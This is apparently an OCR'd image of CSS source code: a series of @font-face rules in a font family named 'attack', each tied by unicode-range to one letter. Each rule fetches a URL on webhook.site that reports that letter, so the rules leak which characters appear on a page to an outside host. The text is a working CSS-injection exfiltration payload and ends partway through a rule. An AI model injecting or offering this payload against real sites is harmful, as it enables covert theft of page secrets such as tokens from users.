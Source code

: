@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:r');

           unicode-range:U+0072;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:s');

           unicode-range:U+0073;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:t');

           unicode-range:U+0074;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:u');

           unicode-range:U+0075;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:v');

           unicode-range:U+0076;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:w');

           unicode-range:U+0077;
